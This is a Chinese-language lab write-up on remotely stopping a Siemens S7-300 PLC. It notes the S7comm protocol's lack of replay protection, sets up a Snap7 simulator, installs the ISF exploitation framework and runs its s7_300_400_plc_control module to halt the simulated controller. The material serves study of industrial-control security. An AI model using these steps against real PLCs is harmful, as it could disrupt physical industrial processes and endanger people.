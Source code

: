 # S7-300 启停实验

<p align="center">
    <img src="../../../../assets/img/banner/s7comm.jpg">
</p>

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**前言**

西门子（SIEMENS）公司的 PLC 产品包括 LOGO、S7-200、S7-1200、S7-300、S7-400、S7-1500 等。

西门子 PLC 在我国的应用比其他系列多。

西门子 S7 系列 PLC 体积小、速度快、标准化，具有网络通信能力，功能更强，可靠性高。S7 系列 PLC 产品可分为微型 PLC（如 S7-200），小规模性能要求的 PLC（如 S7-300）和中、高性能要求的PLC（如S7-400）等。

西门子 PLC 使用私有协议进行通信，它是利用 TPKT 和 ISO8073 的二进制协议。西门子的 PLC 通信端口均为 102 端口,。西门子 PLC 协议有3个版本，S7Comm 协议，早期 S7CommPlus 协议和最新的 S7CommPlus 协议。

S7-200、S7-300、S7-400 系列的 PLC 采用早期的西门子私有协议 S7comm 进行通信。该协议不像 S7CommPlus 的加密协议（S7-1500 等），不涉及任何反重复攻击机制，可以被攻击者轻易利用。S7comm-plus 协议引入了会话 ID 来防止重放攻击。

**实验环境**

`环境仅供参考`

- Microsoft Windows 10 企业版 LTSC - 10.0.17763
- CentOS Linux release 7.7.1908
- VMware® Workstation 15 Pro - 15.0.0 build-10134415

---

# 环境搭建

本次实验用模拟器代替现场设备,先访问软件官网 http://snap7.sourceforge.net/ ,点击 Download 会跳转到 https://sourceforge.net/projects/snap7/files/ ,下载 snap7-full-1.4.2.7z

![](../../../../assets/img/Security/ICS/实验/S7-300启停实验/1.png)

![](../../../../assets/img/Security/ICS/实验/S7-300启停实验/2.png)

首先S7模拟器客户端连接主机,解压,打开 \rich-demos\x86_64-win64\bin 下 serverdemo.exe

输入本机 IP 点击 start 连接

![](../../../../assets/img/Security/ICS/实验/S7-300启停实验/3.png)

然后使用 S7 模拟器客户端,打开 clientdemo.exe 进行连接

输入本机 IP 点击 connect 连接

![](../../../../assets/img/Security/ICS/实验/S7-300启停实验/4.png)

此时服务端出现请求信息,表示连接成功

![](../../../../assets/img/Security/ICS/实验/S7-300启停实验/5.png)

---

# 漏洞利用

接下来采用开源的工控漏洞利用框架 ISF

工具地址 : https://github.com/dark-lbp/isf

使用 Centos 下载并使用
```bash
yum install -y python
wget https://bootstrap.pypa.io/get-pip.py
python get-pip.py

mkdir -p ~/.pip/
tee ~/.pip/pip.conf <<-'EOF'
[global]
index-url = https://pypi.tuna.tsinghua.edu.cn/simple
[install]
trusted-host = https://pypi.tuna.tsinghua.edu.cn
EOF

git clone https://github.com/dark-lbp/isf.git
cd isf/
pip install -t /usr/lib/python2.7/site-packages -r requirements.txt
python2.7 isf.py
```

kali如下
```bash
wget https://bootstrap.pypa.io/get-pip.py
python2 get-pip.py

mkdir -p ~/.pip/
tee ~/.pip/pip.conf <<-'EOF'
[global]
index-url = https://pypi.tuna.tsinghua.edu.cn/simple
[install]
trusted-host = https://pypi.tuna.tsinghua.edu.cn
EOF

git clone https://github.com/dark-lbp/isf.git
cd isf/
python2 -m pip install -r requirements.txt
python2.7 isf.py
```

实际利用
```
use exploits/plcs/siemens/s7_300_400_plc_control
set target 192.168.141.128
run
```

![](../../../../assets/img/Security/ICS/实验/S7-300启停实验/6.png)

这里显示 `stop plc` ,同时查看模拟器中的输出,可以发现已经停止

![](../../../../assets/img/Security/ICS/实验/S7-300启停实验/7.png)

---

**Source & Reference**
- [工控安全 | 西门子S7-300攻击分析](https://www.freebuf.com/articles/ics-articles/228770.html)
- [工控安全：S7-1200 PLC远程启停攻击实验](https://www.key1.top/index.php/archives/469/)

